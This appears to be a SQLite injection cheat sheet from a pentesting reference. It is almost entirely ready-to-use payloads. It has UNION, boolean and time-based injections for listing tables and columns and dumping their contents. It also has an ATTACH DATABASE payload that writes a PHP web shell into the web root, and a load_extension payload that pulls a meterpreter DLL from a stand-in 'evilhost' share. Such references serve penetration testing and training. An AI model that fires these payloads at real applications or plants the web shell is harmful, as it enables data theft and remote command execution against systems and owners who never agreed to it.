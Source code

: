 # SQLite Injection

## UNION and BOOLEAN (Methodology)

```sql
# Tables:
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' # Integer/String based - Extract table name
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 2 offset 1 # Use limit X+1 offset X, to extract all tables.
# Columns:
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' # Integer/String based - Extract column name
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name' # For a clean output

# Boolean - Count number of tables:
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
# Boolean - Enumerating table name:
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
# Boolean - Extract info:
' union select <COLUMN NAME>,2,3,4 FROM <TABLE NAME> limit 1 offset <0,1,2,...>-- -
' union select <COLUMN NAME>,2,3,4 FROM <TABLE NAME> limit <0,1,2,...>,1-- -
' UNION SELECT group_concat(<COLUMN NAME> || "," || <COLUMN NAME> || "," || <COLUMN NAME> || ":") from <table name>
' union select group_concat(<COLUMN NAME>, '~~'),2,3,4 FROM <TABLE NAME>-- - # Extract all the data from the column.
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Others

#### TIME Based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

#### Remote Command Execution using SQLite command - Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--
```

#### Remote Command Execution using SQLite command - Load\_extension

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

{% hint style="info" %}
Note: By default this component is disabled.
{% endhint %}

## References

* [https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
